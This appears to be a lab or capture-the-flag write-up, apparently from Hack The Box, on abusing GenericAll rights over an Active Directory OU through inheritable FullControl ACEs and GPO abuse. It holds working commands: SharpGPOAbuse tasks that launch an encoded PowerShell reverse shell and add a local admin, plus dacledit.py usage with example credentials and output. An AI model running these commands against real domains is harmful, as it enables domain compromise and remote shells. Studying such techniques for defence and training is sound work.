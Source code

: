 the attack vector based on the **GenericAll** rights of a user over an OU relies on the ACL inheritance mechanism in Active Directory. When adding an ACE to a parent object in a domain, it is possible to specify that such an ACE should not only apply to the object itself, but also to all descendant objects. 

As a result, a user having the **GenericAll** right (and thus **WriteDACL** permissions) over an OU could add a **FullControl** ACE to the OU and specify that this ACE should be inherited, **which will effectively lead to the compromise of all child objects since they will inherit said ACE**. As indicated by BloodHound, this can be performed through the **dacledit.py** tool on Linux (or **PowerView** on Windows).


```powershell

New-GPO -Name "NewGPO" | New-GPLink -Target "OU=TargetOU,DC=FRIZZ,DC=HTB" -LinkEnabled YES

cat Invoke-PowerShellTcpOneLine.ps1 | iconv -t utf-16le | base64 -w0 --> {T} in bash.

.\SharpGPOAbuse.exe --Addcomputertask --GPOName "car" --Author "car" --TaskName "RevShell" --Command "reverse.exe" --Arguments "powershell enc {T}"
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName "car" --force

gpupdate /force

```

```shell
$ dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'naugustine' -target-dn 'OU=SERVERS,DC=corp,DC=com' 'corp.com'/'naugustine':'Password1'
[...]
[*] DACL modified successfully!

$ dacledit.py -action 'read' -principal 'naugustine' -target-dn 'CN=AD01-SRV1,OU=SERVERS,DC=corp,DC=com' 'corp.com'/'naugustine':'Password1'
[...]
[*] Filtering results for SID (S-1-5-21-2015307081-2275635861-2347354195-1481)
[*]   ACE[20] info                
[*]     ACE Type                  : ACCESS_ALLOWED_ACE
[*]     ACE flags                 : CONTAINER_INHERIT_ACE, INHERITED_ACE, OBJECT_INHERIT_ACE
[*]     Access mask               : FullControl (0xf01ff)
[*]     Trustee (SID)             : naugustine (S-1-5-21-2015307081-2275635861-2347354195-1481)
```

